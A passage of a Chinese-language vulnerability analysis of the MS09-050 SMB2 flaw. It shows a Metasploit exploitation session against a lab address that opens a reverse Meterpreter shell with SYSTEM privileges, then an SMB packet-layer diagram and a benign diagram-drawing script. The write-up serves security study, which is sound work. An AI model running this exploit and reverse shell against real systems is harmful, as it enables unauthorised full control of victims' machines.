 ```
   exploit/windows/smb/ms09_050_smb2_negotiate_func_index     2009-09-07       good    No     MS09-050 Microsoft SRV2.SYS SMB Negotiate ProcessID Function Table Dereference
```

执行后成功获得SYSTEM权限：

```
msf exploit(windows/smb/ms09_050_smb2_negotiate_func_index) > set RHOST 172.16.56.154
RHOST => 172.16.56.154
msf exploit(windows/smb/ms09_050_smb2_negotiate_func_index) > exploit

[*] Started reverse TCP handler on 172.16.56.1:4444
[*] 172.16.56.154:445 - Connecting to the target (172.16.56.154:445)...
[*] 172.16.56.154:445 - Sending the exploit packet (938 bytes)...
[*] 172.16.56.154:445 - Waiting up to 180 seconds for exploit to trigger...
[*] Sending stage (179779 bytes) to 172.16.56.154
[*] Meterpreter session 1 opened (172.16.56.1:4444 -> 172.16.56.154:49165) at 2018-11-09 08:54:53 +0800

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

话说回来，对于一些溢出漏洞来说，“拒绝服务”和“代码执行”其实更多的是Shellcode及防御措施上的区别。Shellcode质量高，且防御措施能够被绕过，那么这就成了代码执行；否则可能只能达到拒绝服务的效果。

### 漏洞分析

**SMB报文结构**

```
+----------------------+
|  TCP Header          |
+----------------------+   -----
|  NETBIOS Header      |     |
+----------------------+     v
|  SMB Base Header     |
+----------------------+    SMB Packet
|  SMB Command Header  |
+----------------------+     ^
|  SMB DATA            |     |
+----------------------+   -----
```

下面是一个小脚本，用来生成像上面这样的层式结构：

```py
#!/usr/bin/env python

num = input("How many layers would you like? ")

# input the layers
print("Please input the name of layer in order from top to bottom:")
i = 0
layers = []
max_len = 0
for i in range(int(num)):
    layer = input("Layer " + str(i) + ": ")
    layers.append(layer)
    if len(layer) > max_len:
        max_len = len(layer)

# output the packet
print("+" + "-" * (max_len + 4) + "+")
for layer in layers:
    print("|  " + layer + " " * (max_len + 2 - len(layer)) + "|")
    print("+" + "-" * (max_len + 4) + "+")
```